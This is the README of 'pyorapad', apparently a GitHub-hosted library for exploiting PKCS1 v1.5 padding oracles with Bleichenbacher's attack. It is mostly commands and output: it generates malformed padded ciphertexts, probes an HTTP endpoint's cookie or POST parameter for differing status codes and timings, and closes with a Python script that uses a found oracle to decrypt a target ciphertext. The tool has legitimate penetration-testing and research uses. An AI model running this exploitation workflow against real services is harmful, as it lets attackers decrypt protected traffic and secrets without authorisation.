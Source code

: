 pyorapad
========

A library to facilitate the exploitation of padding oracle attacks, more specifically attacks on PKCS1_v1.5. It implements the [Bleichenbacher](http://archiv.infsec.ethz.ch/education/fs08/secsem/Bleichenbacher98.pdf) attack to decrypt any ciphertext given a padding oracle.

## Generation of faulty padding

**pkcs1_test_client** is a client to generate faulty PKCS1 padded messages. Provide it an input message, and it will output a set of incorrectly padded messages. The 5 test cases implemented are:

```
➜  pyorapad git:(master) ./pkcs1_test_client.py -h | grep -i "padding test" -A 100
Padding Test:
  The padding tests to run (multiple choice possible). Each message will be
  output on a seperate line

  -1, --cm              Generate a valid PKCS1 v1.5 padded message
  -2, --cnb             Generate a valid PKCS1 v1.5 padded message which
                        contains multiple conecutive null-bytes
  -3, --nch             Generate a non-conforming PKCS1 v1.5 padded message.
                        Message will start with 0x0001, expected 0x0002
  -4, --ncl             Generate a non-conforming PKCS1 v1.5 padded message.
                        Message will contain a null-byte within the 8 bytes of
                        random padding
  -5, --ncd             Generate a non-conforming PKCS1 v1.5 padded message.
                        Message will not contain a null-byte delimiter
  -a, --all             Generate all test cases
```

For example, to generate all __-a__ cleartext __-c__ PKCS1 faulty messages for the __"ZZZZ"__ cleartext using the __256.pub__ public key, you can do the following:
```
➜  pyorapad git:(master) ./pkcs1_test_client.py -f keypairs/256.pub ZZZZ -a -c
0002ed31112d2834d547b288b1f8097ae4d3296f78a8b32be1b341005a5a5a5a
000277194205eafd22d4032d808ff0b2a950c614fa88fed3b20000005a5a5a5a
0001b4a1f7ea78ca60c9231703427a42491da04c861cf7e4ac6e75005a5a5a5a
00027f7e9b0033a684f92c50b43353d5f33f67a0a8938fce462ca2005a5a5a5a
0002cb998dc3a018b750d0319737afa00fbe14067ebcfac70fc0e7ff5a5a5a5a
```

To get the same output encrypted with the public key, just remove the __-c__ flag:
```
➜  pyorapad git:(master) ./pkcs1_test_client.py -f keypairs/256.pub ZZZZ -a   
0fc02a684419f82c12d83dd73c92182696afda77c69ac7c2c74fc6f16dfa6b15
69e944e68fdd6b4f52d8cd35dca43a53d19932813349595622e38c4a680f853a
8a4c71bb14ca822fdbc080cb3248285f0e1f7e5c7c54019bf08f0038e1de9b10
8d308248c7dc5bd57c7406f7d58e3814945a03a746cbb0525b5edcabfe62eda3
9101b24a425fe5d9f36ebd7c2c3243a9ab47a8c24fb73690a5daea0d6b12cb59
```

## Testing faulty padding

A very simple http client is provided to test a particular URL, POST parameter or header for PKCS1 padding oracle vulnerabilities. To do so, generate padding faults using the client above, and send the result to the **http_client**. The **http_client** will provide:
* The resulting status code
* The time it took for the request to complete
* (optional) The resulting request

For example, to send 5 times **-i** some a correctly padded output in the COOKIE header **-x** to the url **-u** you can do the following:
```
➜  pyorapad git:(master) ✗ ./pkcs1_test_client.py -f keypairs/256.pub abcd | ./http_client.py -u 'http://127.0.0.1:8000' -x Cookie="%s" -i 5
ae8dda9d89d27f8b1bd18565b6a09aabfa567b9db60fb2a1b788a959e278c811
	Code:      200	Duration:  0.006587
	Code:      200	Duration:  0.001053
	Code:      200	Duration:  0.000977
	Code:      200	Duration:  0.000994
	Code:      200	Duration:  0.000967
```

To test all **-a** faulty padding test cases of the POST **-p** parameter through a proxy (useful for debugging or further modifications using your favourite proxy), you can do the following:
```
➜  pyorapad git:(master) ✗ ./pkcs1_test_client.py -f keypairs/256.pub abcd -a | http_proxy="http://127.0.0.1:8080" ./http_client.py -u 'http://127.0.0.1:8000' -p param="%s" -i 1
58f3cc08f2de432e44b81d32f7639bcec89cd07752116615f17635dc0870d89c
	Code:      403	Duration:  0.035813
82195dad39e5be85c4959c3c5dfefc85c0e11582d5c42c5b61eb49faf0b2c59e
	Code:      403	Duration:  0.049567
382cdff02984da708f9332b48a64b64542b466c00b4386cff7595f0d0b1db2e3
	Code:      403	Duration:  0.048423
1a86ddd8a1c05351eb7c1c5f2c31fd2f55f3f03d9af86cfa0e6546fa553cec97
	Code:      403	Duration:  0.048562
4934721447b2ace0a30adb163313ec87d36c59a3cfdac6d3b258a90fff6a55dd
	Code:      500	Duration:  0.088740
```
The latest request is suspicious, since it returns a different error code and timing for an faulty message. You have found an injection point!

## Oracle, decrypt me that cleartext!

A bit of work is needed here, namely writting a similar script:

```python
import logging
from oracle import HttpOracle
from padding import Bleichenbacher

if __name__ == "__main__":
  logging.basicConfig(level=logging.DEBUG)
  try:
    def callback(resp, duration):
      ret = False
      if resp != None:
        #print(resp.getcode(), dict(resp.info()), resp.read())
        if resp.getcode() == 500:
          ret = True
      else:
        print("Request failed")
      return ret
    o = HttpOracle("http://127.0.0.1", headers={"Cookie":"name=%0128x"})
    o.set_proxy()
    b = Bleichenbacher.pubkey_from_file("public_raw.pot", o, callback)
    m, i = b.run_search("49affbbe68d923e9cd1d2420fec72aea432b5a119df51f1bba89aa1245eeb627d6809eeebb02db75746df85435735e6e6d11067d77c66da23b7722051141bb19")
    print("Found cleartext :%i in %i iterations" % (m, i))
  except KeyboardInterrupt:
    b.stop_search()
```

